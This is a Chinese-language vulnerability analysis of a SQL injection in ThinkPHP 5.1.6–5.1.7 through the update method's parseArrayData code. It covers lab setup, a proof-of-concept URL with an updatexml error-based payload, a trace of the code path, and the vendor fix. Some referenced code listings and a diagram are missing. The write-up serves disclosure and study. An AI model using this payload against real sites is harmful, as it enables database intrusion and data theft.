







# 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update** 方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生

## 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->where([‘id’ => 1])->update([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）



### 漏洞分析


首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。



接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：



在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。



我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。



上面 **第15行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1; 
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1 
```

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。



### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。



## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln